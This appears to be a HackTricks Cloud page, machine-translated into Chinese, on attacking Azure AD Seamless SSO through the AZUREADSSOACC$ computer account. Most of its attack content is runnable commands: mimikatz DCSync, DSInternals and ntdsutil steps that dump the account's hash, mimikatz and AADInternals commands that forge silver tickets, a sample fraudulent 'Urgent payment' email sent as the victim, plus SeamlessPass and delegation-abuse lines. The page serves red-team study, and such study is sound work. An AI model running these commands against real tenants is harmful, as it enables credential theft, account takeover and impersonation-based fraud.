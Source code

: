 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

[来自文档:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) 会在用户使用连接到公司网络的公司设备时自动**登录用户**。启用后，**用户无需输入密码即可登录 Azure AD**，通常甚至不需要输入用户名。此功能为用户提供了轻松访问基于云的应用程序的方式，而无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本上，Azure AD Seamless SSO **在用户** **在本地域加入的 PC 上** **登录用户**。

它支持 [**PHS (密码哈希同步)**](phs-password-hash-sync.md) 和 [**PTA (透传身份验证)**](pta-pass-through-authentication.md)。

桌面 SSO 使用 **Kerberos** 进行身份验证。配置后，Azure AD Connect 在本地 AD 中创建一个名为 **AZUREADSSOACC`$`** 的 **计算机帐户**。`AZUREADSSOACC$` 帐户的密码在配置期间**以明文形式发送到 Azure AD**。

**Kerberos 票证**使用密码的 **NTHash (MD4)** 进行**加密**，Azure AD 使用发送的密码解密票证。

**Azure AD** 暴露一个 **端点** (https://autologon.microsoftazuread-sso.com)，接受 Kerberos **票证**。域加入机器的浏览器将票证转发到此端点以进行 SSO。

### 本地 -> 云

用户 **`AZUREADSSOACC$`** 的 **密码** **从不更改**。因此，域管理员可以破解该 **帐户的哈希**，然后使用它来 **创建银票** 以连接到 Azure，使用 **任何已同步的本地用户**：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用该哈希值，您现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
要利用银票，应执行以下步骤：

1. **启动浏览器：** 应启动Mozilla Firefox。
2. **配置浏览器：**
* 导航到 **`about:config`**。
* 将 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 的首选项设置为指定的 [值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **访问Web应用程序：**
* 访问与组织的AAD域集成的Web应用程序。一个常见的例子是 [Office 365](https://portal.office.com/)。
4. **身份验证过程：**
* 在登录屏幕上，应输入用户名，密码字段留空。
* 要继续，请按TAB或ENTER。

{% hint style="success" %}
这不会绕过启用的MFA
{% endhint %}

#### 选项2，无需dcsync - SeamlessPass

也可以执行此攻击 **而无需dcsync攻击**，以更隐蔽，如 [在这篇博客文章中解释的](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。为此，您只需以下之一：

* **被攻陷用户的TGT：** 即使您没有，但用户被攻陷，您也可以使用许多工具中实现的假TGT委派技巧获取一个，例如 [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 和 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)。
* **黄金票证**：如果您拥有KRBTGT密钥，您可以为被攻击用户创建所需的TGT。
* **被攻陷用户的NTLM哈希或AES密钥：** SeamlessPass将使用此信息与域控制器通信以生成TGT。
* **AZUREADSSOACC$帐户NTLM哈希或AES密钥：** 使用此信息和用户的安全标识符（SID）进行攻击，可以创建服务票证并与云进行身份验证（如前面的方法所示）。

最后，使用TGT可以使用工具 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 进行： 

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

有关将 Firefox 设置为与无缝 SSO 一起使用的更多信息，可以在 [**这篇博客文章中找到**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。

#### ~~为仅云用户创建 Kerberos 票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果 Active Directory 管理员可以访问 Azure AD Connect，他们可以 **为任何云用户设置 SID**。这样，Kerberos **票证**也可以 **为仅云用户创建**。唯一的要求是 SID 必须是一个合适的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
仅云管理员用户的 SID 现在被 **微软阻止**。\
有关信息，请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 本地 -> 云通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机帐户 (`AZUREADSSOACC$`) 的人，在该帐户所在的容器或 OU 中，都可以 **配置基于资源的受限委派并访问它**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: 我在你的云中，阅读每个人的电子邮件 - 通过 Active Directory 黑客攻击 Azure AD](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
学习与实践 AWS 黑客攻击：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客攻击：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
